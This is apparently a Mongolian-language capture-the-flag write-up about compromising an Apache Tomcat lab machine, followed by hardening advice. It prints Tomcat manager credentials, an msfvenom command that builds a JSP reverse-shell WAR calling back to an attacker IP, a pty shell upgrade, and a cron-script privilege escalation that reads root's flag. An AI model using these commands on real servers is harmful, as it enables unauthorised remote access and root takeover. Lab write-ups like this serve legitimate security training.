## whiterose 10.201.89.188







ole rolename="manager-gui"
user username="tomcat" password="s3cret" roles="manager-gui"





## msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.21.21.166 LPORT=4444 -f war -o shell.war

msfvenom — Metasploit-ын payload үүсгэгч хэрэгсэл.

-p java/jsp_shell_reverse_tcp — payload төрлийг зааж байгаа (JSP хэл дээр бичсэн reverse-shell).

LHOST=10.21.21.166 — алсын холбогдол авах (callback) таны IP.

LPORT=4444 — алсын хүлээн авагч порт.

-f war — гаралтын формат: WAR (Java web application archive).

-o shell.war — үүсгэсэн файлыг shell.war гэдэг нэртэй хадгална.

Үр дүн: shell.war файлыг target (Tomcat/Java вэб сервер)-д тавимагц JSP-аар бичсэн shell ажиллаж, таны LHOST:LPORT руу холбогдох оролдлого хийнэ.







## python3 -c 'import pty; pty.spawn("/bin/bash")'

Энэ команд нь reverse shell авсны дараа хэрэглэгддэг нэг алхам — интерактив shell сайжруулах зорилготой байдаг. pty гэдэг нь Python-ын pseudo-terminal (хийсвэр терминал) удирдах стандарт сан.

Энэ нь терминал орчныг дуурайж өгдөг (жишээ нь /dev/pts/0 гэх мэт).
pty.spawn("/bin/bash")

spawn() нь шинэ bash shell процессыг pseudo-terminal дотор үүсгэнэ.

Ингэснээр та "жирийн терминал шиг ажилладаг" shell авч байна.





crontab гэж юу вэ?

cron бол Linux/Unix системийн тасралтгүй давтамжтай ажлууд (scheduled jobs) ажиллуулах үйлчилгээ. crontab нь эдгээр давтамжуудыг тодорхойлсон файл/жагсаалт юм.



echo "cp /root/root.txt /home/jack/root.txt" > id.sh

> id.sh — тэр гаралтыг id.sh нэртэй файл руу бичнэ (байвал давхар бичиж орлуулна).



Нээлттэй Apache Tomcat вэб сервер (порт 8080) — веб интерфэйс эсвэл файл апплоуд/manager модуль нь анхаарал татсан. 

Нууц үг / конфигийн мэдээлэл задрал (credential disclosure) — зарим бичиг баримт, скрипт эсвэл веб хуудсан дээр Tomcat-д нэвтрэх боломжтой нууц үг/ухаалаг тохиргоо байсан тул админ контейнер дээр нэвтрэх боломж гарсан. 

Файл-апплоад / WAR deploy ашиглан вэб-шелл оруулсан — Tomcat manager-ээр .war файл байршуулж reverse shell/файлын апплоуд хийж хэрэглэгчийн (www-data/хаасан хэрэглэгч) эрхээр shell авсан. 

Privilege escalation — Cron/scheduled script эсвэл world-writable скрипт: Системд cron-оор ажилладаг скрипт эсвэл world-writable файл байсан тул түүнд өөрчлөлт хийж, root эрх авах боломжтой болсон. (энэ нь Thompson write‑up-уудын нийтлэг мөч) 

Нэвтрэх: конфиг/файлыг шалгаад (жишээ: .properties, .xml файл) нууц үг олвол Tomcat manager‑д нэвтрэх. 

Апплоуд: өөрийн WAR веб‑шелл оруулж, тойргийнхаа listener-т холбож reverse shell авах. (TryHackMe writeups-уудын нийтлэг явц). 

Эцэст нь: ls -la /etc/cron.*, find / -type f -perm -o+w 2>/dev/null зэрэг командуудаар world-writable файлууд/cron scripts хайж, өөрчлөн root бүртгэл авах. 
System Weakness

Хамгаалах зөвлөмж (тэдгээр эмзэг байдлыг яаж зогсоох вэ)

Tomcat‑ын админ/manager интерфэйсийг интернэтэд нээж бүү тавь, зөвхөн дотоод сүлжээнд эсвэл VPN‑ээр хязгаарла. 

Хардкод эсвэл задсан нууц бүү хадгал — конфигт нууц үг нэвтрэх боломжгүй болго, secrets‑ийг vault/ENV‑д шилжүүл. 

Файлын эрх, скриптүүдийн permission‑г шалгаж, world-writable файлуудыг арилгах; cron скриптүүдийг зөв‑өн гүйцэтгэх эрхтэй, root‑аас өөрчлөх боломжгүй байхаар тохируулах. 

File upload functionality‑г content-type/filtering, allowed extensions, sandboxing ашиглан хамгаал. 

Системийг update хийж, audit/IDS болон лог мониторингийг идэвхжүүл. 
